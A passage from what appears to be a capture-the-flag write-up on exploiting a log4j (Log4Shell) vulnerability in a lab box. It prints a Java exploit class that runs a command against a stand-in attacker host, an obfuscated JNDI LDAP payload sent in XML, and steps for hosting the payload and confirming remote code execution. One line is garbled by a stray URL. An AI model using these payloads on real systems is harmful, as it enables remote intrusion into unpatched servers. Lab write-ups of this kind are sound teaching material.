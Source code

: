 We will start with a simple exploit from the Solar room I mentioned earlier.

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("ping -c 4 ATTACKER_IP_ADDRESS");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

We compile it with a java 8 compiler:

```bash
javac Exploit.java
```

And host it on port 8000 with `python3 -m http.server` or `updog`.

To check if we have RCE, we start tcp dump and look for pings:

```
sudo tcpdump -i tun0 icmp
```

And finally whttps://github.com/jpillora/chisele upload our payload:

```xml
<?xml version="1.0"?>
<post>${${::-j}ndi:ldap://ATTACKER_IP_ADDRESS:1389/Exploit}</post>
```

And while we see a call on both marshall and our http server, we do not get a ping.

![The application requests our exploit from marshalsec.](/images/shaker/call-marshalsec1.png)

There could be multiple reasons for this. One of them could simply be that there's no ping binary. We tried a few other commands to no avail. No bash, no netcat, no wget, no curl.

The author probably removed what he considered unnecessary binaries from container in an effort harden it further. This is a legitimate tactic as it makes living off the land much harder and increases the skill requirements for exploitation. However, with a vulnerability like log4j this is clearly insufficient because the vulnerability is essentially giving you programmatic access to all the features of the operating system.

You don't have curl? Java can download for you. You don't have chmod? Java can change file permissions for you. We can take this as far as we want. However, if we're going to create a file, we have to deploy it somewhere we know we have permissions to.

I tried /tmp/ at first but was unable to exploit, which means Hydragyrum probably hardened that as well. But we know exactly where we can create a file in the filesystem. the application uploads folder.
